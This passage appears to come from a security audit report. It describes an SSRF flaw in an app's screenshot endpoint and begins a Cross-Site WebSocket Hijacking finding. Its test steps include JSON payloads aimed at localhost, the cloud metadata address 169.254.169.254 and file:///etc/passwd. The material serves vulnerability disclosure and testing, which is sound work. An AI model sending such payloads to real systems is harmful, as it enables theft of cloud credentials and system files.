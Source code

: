 ```python
```

The function takes the user-provided URL (`target_url`) and passes it directly to an external API (screenshotone.com) without any validation. This allows the attacker to specify any URL that the screenshot service can access, which could include internal services if the service is misconfigured or vulnerable.

### Security Test Case
1. Set up a server to monitor incoming requests (like a Burp Collaborator or simple webhook service)
2. Send a POST request to the application's `/api/screenshot` endpoint with a payload like:
   ```json
   {
     "url": "http://your-monitoring-server.com/ssrf-test",
     "apiKey": "your-screenshot-api-key"
   }
   ```
3. Verify that your monitoring server receives a request, confirming the SSRF vulnerability
4. Test with internal addresses to check if private network access is possible:
   ```json
   {
     "url": "http://localhost:8080",
     "apiKey": "your-screenshot-api-key"
   }
   ```
   ```json
   {
     "url": "http://169.254.169.254/latest/meta-data/",
     "apiKey": "your-screenshot-api-key"
   }
   ```
5. Test with file protocol to check if local file access is possible:
   ```json
   {
     "url": "file:///etc/passwd",
     "apiKey": "your-screenshot-api-key"
   }
   ```
6. Check the responses to determine the extent of the vulnerability

## Cross-Site WebSocket Hijacking (CSWSH)

### Vulnerability Name
Cross-Site WebSocket Hijacking (CSWSH) due to Missing Origin Validation

### Description
The application implements WebSocket communication for code generation without proper origin validation. This, combined with a permissive CORS policy that allows requests from any origin, creates a Cross-Site WebSocket Hijacking vulnerability. An attacker can create a malicious website that establishes a WebSocket connection to the application server, initiates code generation processes, and potentially accesses sensitive information or performs unauthorized actions.
